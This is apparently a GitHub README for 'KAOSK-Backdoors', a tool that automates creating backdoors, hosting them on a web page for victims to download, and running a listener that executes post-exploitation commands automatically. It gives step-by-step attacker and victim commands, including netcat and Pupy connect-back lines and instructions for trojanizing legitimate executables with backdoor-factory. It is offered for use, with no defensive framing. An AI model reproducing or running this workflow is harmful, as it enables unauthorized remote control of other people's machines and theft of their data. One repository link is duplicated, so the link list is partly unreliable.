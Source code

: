 >=>   >=>         >>           >===>        >=>>=>   >=>   >=>
>=>  >=>         >>=>        >=>    >=>   >=>    >=> >=>  >=>
>=> >=>         >> >=>     >=>        >=>  >=>       >=> >=>
>>=>>          >=>  >=>    >=>        >=>    >=>     >>=>>
>=>  >=>      >=====>>=>   >=>        >=>       >=>  >=>  >=>
>=>   >=>    >=>      >=>    >=>     >=>  >=>    >=> >=>   >=>
>=>     >=> >=>        >=>     >===>        >=>>=>   >=>     >=>

# KAOSK-Backdoors
==========
It's a tool that automate: 
+ the installation of some Backdoor's creation programs
+ the creation of the backdoors to use in a victim machine
+ a web where you can download the backdoors created
+ the listener of the backdoors downloaded
+ the actions of the listener

## Example
Using Kali2 as the attacker with IP: 192.168.0.100

Using any machine as the victim in the same network as the attacker.

Run in Kali:
git clone https://github.com/carlospolop/KAOSK-backdoors.git
python ./install.py
python ./create_backdoors.py 192.168.0.100
python ./handler.py 192.168.0.100

In the victim machine:
Use a browser and navigate to 192.168.0.100/back and you will see the backdoors created before in the attacker
Download the backdoor that you want to use
Run the backdoor

You will have a session in the victim's machine.

If you have chose a backdoor created with msfvenom, backdoor-factory or unicorn, you will have a metasploit session in the victim. The metasploit's sessions can be configured to run post modules, meterpreter commands and shell commands in the config folder. This means that when you capture a metasploit sessions this modules and commands will run automatically.

## How to configure which post modules, meterpreter commands and shell commands to use
You just have to go to the config folder and the you will find some folders of differents OS. Go inside anyone and you will find some text documents where you can write which post modules, meterpreters commands and shell comands to use when you capture a session in a machine that uses the OS selected.

## Install
python ./install.py

## Create Backdoors
python ./create_backdoors.py <IP_attacker>

## Start handler
python ./handler.py <IP_attacker>


# To Know about the backdoors
--------------------
## Backdoors used:
+ Backdoor-factoy
+ MiaoMiao
+ Msfvenom
+ Pupy
+ RSPET
+ Unicorn

## Backdoor-factory
The backdoor-factory introduce the backdoor inside executables.
If you want to corrupt a executable, you just have to download the original, move it to the correct folder inside BDF_prepared and run python ./create_backdoors.py <IP_attacker> (or python ./backdoor-factoryAuto.py <IP_attacker>)

https://github.com/secretsquirrel/the-backdoor-factory.git

## MiaoMiao
This backdoor open a port in the victims machine and the attacker connects to it. The default port is 55555
To use this backdoor you have to run:
+ Victim: Run src_backdoor > server_dist > newest_version
+ Attacker: nc IP_Victim 55555 -vv

https://github.com/marc0l92/MiaoMiao_project.git

## Msfvenom
Of course.

## Pupy
Creates differents types of backdoors and use it's own listener. It is all automated and the process followed to use these backdoors is:
+ Victim: Run the file create using ./pupygen.py -f lin_x64  connect --host IP_Attacker
+ Attacker: ./pupysh.py

https://github.com/n1nj4sec/pupy.git

## RSPET
To use this backdoor you have to run:
+ Victim: Run python RSPET_folder/Client/rspet_client.py <IP_Attacker>
+ Attacker: (This part is automated) Run Server > rspet_server.py 

https://github.com/panagiks/RSPET.git

## Unicorn
Creates differents types of backdoors and it is all automated.
Use metasploit as listener.

https://github.com/n1nj4sec/pupy.git
